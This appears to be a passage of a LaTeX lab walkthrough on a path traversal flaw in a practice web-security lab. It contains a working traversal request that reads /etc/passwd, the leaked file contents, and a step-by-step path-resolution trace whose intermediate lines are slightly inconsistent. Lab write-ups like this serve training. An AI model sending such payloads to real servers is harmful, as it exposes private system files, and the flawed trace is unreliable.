 \documentclass[11pt,letterpaper]{article}
\newcommand{\code}[1]{\texttt{\detokenize{#1}}}
\begin{document}
\begin{verbatim}[language=http,caption={Step 5: Add traversal sequences to escape base directory}]
-- The image is probably in something like /var/www/images/ --
-- We need to go up 3+ directories to reach root --

GET /image?filename=../../../etc/passwd HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=xyz789

-- VULNERABLE RESPONSE! --
HTTP/1.1 200 OK
Content-Type: image/jpeg

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
...
\end{verbatim}

\begin{warningbox}
The server returned the contents of \code{/etc/passwd}! This confirms:
\begin{enumerate}
  \item The application is vulnerable to path traversal
  \item We can read arbitrary files on the server
  \item The application runs with sufficient privileges to read system files
  \item The \code{root:x:0:0:} line proves we're reading the real passwd file
\end{enumerate}
\end{warningbox}

\subsection{Step 6: Understanding the Path Resolution}

\begin{verbatim}[caption={How the path resolves on the server}]
Server base directory: /var/www/images/

Our payload: ../../../etc/passwd

Path construction:
  /var/www/images/ + ../../../etc/passwd

Resolution step by step:
  /var/www/images/../../../etc/passwd
  /var/www/../../../etc/passwd       (up from images)
  /var/../../etc/passwd               (up from www)
  /../etc/passwd                      (up from var)
  /etc/passwd                         (.. at root = root)

Final resolved path: /etc/passwd
\end{verbatim}
\end{document}
